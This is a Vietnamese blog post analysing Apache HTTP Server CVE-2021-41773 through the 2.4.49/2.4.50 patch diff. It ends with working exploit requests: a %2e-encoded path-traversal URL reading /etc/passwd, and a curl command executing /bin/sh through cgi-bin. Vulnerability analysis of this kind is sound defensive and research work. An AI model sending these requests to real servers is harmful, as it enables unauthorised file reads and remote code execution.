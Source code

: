 Vừa qua thì trên mạng xã hội đang hot về [CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773) của Apache HTTP Server, mấy anh em khác đều đã research và upload PoC rồi. Anh trong team có bảo xem qua thử, và mình đọc patch cũng thấy dễ nhìn và mình có thể làm được, nên mình viết lại bài blog này cho vui

Đầu tiên về diff patch. Các bạn có thể lên [Apache](https://httpd.apache.org/security/vulnerabilities_24.html) để đọc thêm về thông tin bug

![](https://github.com/matuhn/matuhn.github.io/raw/master/_posts/41773-1.PNG)

Có thể thấy được là bug đã fix ở phiên bản 2.4.50 (fixed by r1893775 in 2.4.50). Mình sẽ check xem [revision 1893775](https://svn.apache.org/viewvc?view=revision&revision=1893775) đã thay đổi những gì trong source code 

Nhận thấy là bug xuất hiện `httpd/httpd/branches/2.4.x/server/util.c` nên mình đã diff thử util.c của `httpd 2.4.49` và `httpd 2.4.50`

```diff
--- C:\Users\khoa\Downloads\diff\50.c	Fri Oct  1 18:21:11 2021
+++ C:\Users\khoa\Downloads\diff\49.c	Sun Aug 22 04:35:04 2021
@@ -502,8 +502,7 @@
 AP_DECLARE(int) ap_normalize_path(char *path, unsigned int flags)
 {
     int ret = 1;
-    apr_size_t l = 1, w = 1, n;
-    int decode_unreserved = (flags & AP_NORMALIZE_DECODE_UNRESERVED) != 0;
+    apr_size_t l = 1, w = 1;
 
     if (!IS_SLASH(path[0])) {
         /* Besides "OPTIONS *", a request-target should start with '/'
@@ -530,7 +529,7 @@
          *  be decoded to their corresponding unreserved characters by
          *  URI normalizers.
          */
-        if (decode_unreserved
+        if ((flags & AP_NORMALIZE_DECODE_UNRESERVED)
                 && path[l] == '%' && apr_isxdigit(path[l + 1])
                                   && apr_isxdigit(path[l + 2])) {
             const char c = x2c(&path[l + 1]);
@@ -568,17 +567,8 @@
                     continue;
                 }
 
-                /* Remove /xx/../ segments (or /xx/.%2e/ when
-                 * AP_NORMALIZE_DECODE_UNRESERVED is set since we
-                 * decoded only the first dot above).
-                 */
-                n = l + 1;
-                if ((path[n] == '.' || (decode_unreserved
-                                        && path[n] == '%'
-                                        && path[++n] == '2'
-                                        && (path[++n] == 'e'
-                                            || path[n] == 'E')))
-                        && IS_SLASH_OR_NUL(path[n + 1])) {
+                /* Remove /xx/../ segments */
+                if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2])) {
                     /* Wind w back to remove the previous segment */
                     if (w > 1) {
                         do {
@@ -595,7 +585,7 @@
                     }
 
                     /* Move l forward to the next segment */
-                    l = n + 1;
+                    l += 2;
                     if (path[l]) {
                         l++;
                     }
```

Có thể nhận thấy trong phiên bản `httpd 2.4.50` team dev của Apache đã decode thêm %2e trong khi normalize path chứ không chỉ check mỗi dấu . như phiên bản `httpd 2.4.49`

```diff
-                /* Remove /xx/../ segments (or /xx/.%2e/ when
-                 * AP_NORMALIZE_DECODE_UNRESERVED is set since we
-                 * decoded only the first dot above).
-                 */
-                n = l + 1;
-                if ((path[n] == '.' || (decode_unreserved
-                                        && path[n] == '%'
-                                        && path[++n] == '2'
-                                        && (path[++n] == 'e'
-                                            || path[n] == 'E')))
-                        && IS_SLASH_OR_NUL(path[n + 1])) {
+                /* Remove /xx/../ segments */
+                if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2])) {
```

Từ đây có thể nhận ra là bug sẽ có dạng /xx/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/.../abcxyz. Tiếp theo là tìm cách để trigger Path Traversal ở chỗ này

Mặc định của Apache là không thể nào tác động ra các directory ở ngoài Web Root. Nhưng với `module/mod_alias.so` thì chúng ta có thể tác động tới các directory bên ngoài nhờ vào `ScriptAlias` hoặc `Alias`. Cụ thể là:

```ApacheConf
<IfModule alias_module>
    #
    # Redirect: Allows you to tell clients about documents that used to 
    # exist in your server's namespace, but do not anymore. The client 
    # will make a new request for the document at its new location.
    # Example:
    # Redirect permanent /foo http://www.example.com/bar

    #
    # Alias: Maps web paths into filesystem paths and is used to
    # access content that does not live under the DocumentRoot.
    # Example:
    # Alias /webpath /full/filesystem/path
    #
    # If you include a trailing / on /webpath then the server will
    # require it to be present in the URL.  You will also likely
    # need to provide a <Directory> section to allow access to
    # the filesystem path.

    #
    # ScriptAlias: This controls which directories contain server scripts. 
    # ScriptAliases are essentially the same as Aliases, except that
    # documents in the target directory are treated as applications and
    # run by the server when requested rather than as documents sent to the
    # client.  The same rules about trailing "/" apply to ScriptAlias
    # directives as to Alias.
    #
    ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"

</IfModule>
```

Mặc định là `/cgi-bin/` sẽ map với `/usr/local/apache2/cgi-bin` nên hoàn toàn có thể craft được payload Path Traversal từ đây 

```
http://host/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

Bởi vì mặc định của httpd.conf là CGI module sẽ không được bật, nên thay vì thực thi các path được gọi bởi /cgi-bin/, Apache Server sẽ trả về nội dung các file

Vậy RCE sẽ xảy ra nếu module CGI được bật lên, cụ thể là

```ApacheConfig
<IfModule !mpm_prefork_module>
	LoadModule cgid_module modules/mod_cgid.so
</IfModule>
```

Kèm theo đó, Apache HTTP Server có 1 [tính năng](http://httpd.apache.org/docs/current/howto/cgi.html#behindscenes) sẽ ghi nhận các giá trị của các parameter và đẩy tất cả vào STDIN dẫn tới việc ta có thể vừa thực thi 1 binary trên server, vừa có thể truyền parameter cho binary đó. Cụ thể là:

```
curl 'http://host/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' -d 'echo;ls'
```



